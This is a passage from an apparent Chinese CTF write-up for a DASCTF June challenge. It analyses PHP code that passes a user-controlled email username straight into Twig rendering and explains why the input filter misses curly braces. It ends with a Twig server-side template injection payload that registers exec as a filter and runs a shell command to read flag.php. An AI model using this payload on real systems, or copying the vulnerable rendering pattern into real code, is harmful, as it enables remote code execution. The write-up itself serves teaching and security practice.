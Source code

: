 ```php
    </script>";
    die;
}

$smtpEmailTo = $_POST['toemail'];

if (!mailCheck($smtpEmailTo))
{
    alertMes("hacker", "/index.php"); //die;
}

//为了减少邮件服务器压力，任何fuzz都请带上$_POST['test'] 请充分测试后再订阅并发邮件，如果检测到某个用户频繁无脑发邮件会被封禁。
if (isset($_POST['test']))
{
    user_are_fuzzing_and_smtp_server_wont_send_email();
    die;
}

//do not trick
Twig_Autoloader::register();
$loader = new Twig_Loader_String()
$twig = new Twig_Environment($loader);
$yourName = pos(explode( '@', $smtpEmailTo));
$content = @$twig->render($yourName);
$mailcontent = "<h1>Hello <font color=red>".$content."</font><br>Welcome to DASCTF June, Have FUN!</h1>";
$smtp = new Smtp($smtpserver, $smtpserverport, true, $smtpuser, $smtppass);
$smtp->debug = false;
$state = $smtp->sendmail($smtpEmailTo, $smtpusermail, $mailtitle, $mailContent, $mailtype);


/* flag is in flag.php */
```



首先我们分析本题目代码逻辑，由用户传入一个Email地址，服务器端从用户输入的Email地址中提取用户名传入Twig模板，渲染一封包含用户名的邮件发送至该Email地址。



利用点在提取用户名并渲染的逻辑中，我们可以看到 `$yourname` 是提取 `$smtpEmailTo` 中 @前面的值，既用户名，然后在 `$content = @$twig->render($yourName);` 中将用户名直接传入Twig 模板渲染执行。由于 `$yourName` 是由用户输入，完全可控。



然后我们看 `mailCheck` 函数中的过滤规则，两个if判断逻辑过滤了几种特殊符号和关键字，并没有过滤花括号{}和一些其他关键类名，所以我们可以构造形如 `{{7*7}}@yourmail.com` 的Email地址传入进行SSTI。



### payload分析

本题所用payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("a=cat;b=flag.php;$a $b")}}@yourmail.com
```
